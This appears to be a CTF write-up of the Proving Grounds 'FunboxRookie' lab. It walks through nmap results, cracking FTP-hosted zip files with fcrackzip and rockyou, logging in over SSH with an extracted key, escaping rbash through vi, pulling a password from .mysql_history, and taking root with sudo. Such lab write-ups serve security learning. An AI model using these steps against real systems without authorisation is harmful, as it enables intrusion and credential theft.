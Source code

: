 ```yaml
---
title: "Proving grounds Play: FunboxRookie"
layout: post
date: 2023-09-14 01:00
categories: writeup
---
```


Proving grounds Play - FunboxRookie CTF writeup.

## Nmap

```sh
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.5e
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 anna.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 ariel.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 bud.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 cathrine.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 homer.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 jessica.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 john.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 marge.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 miriam.zip
| -r--r--r--   1 ftp      ftp          1477 Jul 25  2020 tom.zip
| -rw-r--r--   1 ftp      ftp           170 Jan 10  2018 welcome.msg
|_-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 zlatan.zip
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f9467dfe0c4da97e2d77740fa2517251 (RSA)
|   256 15004667809b40123a0c6607db1d1847 (ECDSA)
|_  256 75ba6695bb0f16de7e7ea17b273bb058 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-robots.txt: 1 disallowed entry 
|_/logs/
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web PORT: 80

![img](/assets/images/CTF/Proving_Grounds/FunboxRookie/web.png)

## FTP PORT: 21

```sh
lftp> ls
229 Entering Extended Passive Mode (|||63774|)
150 Opening ASCII mode data connection for file list
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 anna.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 ariel.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 bud.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 cathrine.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 homer.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 jessica.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 john.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 marge.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 miriam.zip
-r--r--r--   1 ftp      ftp          1477 Jul 25  2020 tom.zip
-rw-r--r--   1 ftp      ftp           170 Jan 10  2018 welcome.msg
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 zlatan.zip
226 Transfer complete
```

Download all files and extract the files, which are password protected.

### Cracking password

```sh
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt file.zip
```

Use the above tool to crack the password, an alternative way to crack the password is to use `zip2john` tool to create hash for the zip files and then later use john to crack the hashes.

After trying to crack passwords for all the files, the process resulted in failure except for files `tom.zip` and `catherine.zip`.

![img](/assets/images/CTF/Proving_Grounds/FunboxRookie/crack.png)

Extract the zip files using the passwords and use the `id_rsa` key to login to the remote machine using SSH.

The user `tom` has restricted shell `rbash`. Use the below technique to bypass the restriction.

```sh
vi
:set shell=/bin/bash
:shell
```

The user has a `.mysql_history` file in the machine, which we can check for passwords.

```sh
tom@funbox2:~$ ls -al
total 48
drwxr-xr-x 5 tom  tom  4096 Sep 14 01:51 .
drwxr-xr-x 3 root root 4096 Jul 25  2020 ..
-rw------- 1 tom  tom    53 Sep 14 01:49 .bash_history
-rw-r--r-- 1 tom  tom   220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 tom  tom  3771 Apr  4  2018 .bashrc
drwx------ 2 tom  tom  4096 Sep 14 01:48 .cache
drwx------ 3 tom  tom  4096 Jul 25  2020 .gnupg
-rw------- 1 tom  tom  1675 Jul 25  2020 id_rsa
-rw-r--r-- 1 tom  tom    33 Sep 14 01:31 local.txt
-rw------- 1 tom  tom   295 Jul 25  2020 .mysql_history
-rw-r--r-- 1 tom  tom   807 Apr  4  2018 .profile
drwx------ 2 tom  tom  4096 Sep 14 01:52 .ssh
```

The file has the password for user tom.

```text
insert\040into\040support\040(tom,\040█████████);
```

## Privilege Escalation

After checking the permissions for the user tom he has ALL the permissions in the machine which allows us to get root shell using `sudo su` and user tom password.

```sh
User tom may run the following commands on funbox2:
    (ALL : ALL) ALL
```

![img](/assets/images/CTF/Proving_Grounds/FunboxRookie/root.png)

**Root obtained**

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).